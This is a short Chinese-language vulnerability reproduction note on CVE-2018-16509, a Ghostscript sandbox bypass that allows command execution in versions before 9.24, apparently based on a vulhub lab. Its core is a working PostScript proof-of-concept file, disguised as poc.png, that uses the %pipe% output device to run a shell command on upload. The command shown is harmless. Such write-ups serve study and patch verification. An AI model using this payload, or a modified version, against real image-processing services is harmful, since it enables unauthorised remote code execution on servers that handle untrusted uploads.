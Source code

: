 ```yaml
---
title: "（CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞"
id: zhfly2951
---
```


# （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

该漏洞源于在处理/invalidaccess异常时，程序没有正确的检测‘restoration of privilege（权限恢复）’。攻击者可通过提交特制的PostScript利用该漏洞执行代码。

## 二、漏洞影响

Ghostscript 9.24之前版本

## 三、复现过程

上传poc.png，将执行命令`id > /tmp/success && cat /tmp/success`。此时进入容器`docker-compose exec web bash`，将可以看到/tmp/success已被创建：

**poc.png**

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops 
```

![image](../img/65618c707cb61995c7788dfb39605ee6.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2018-16509/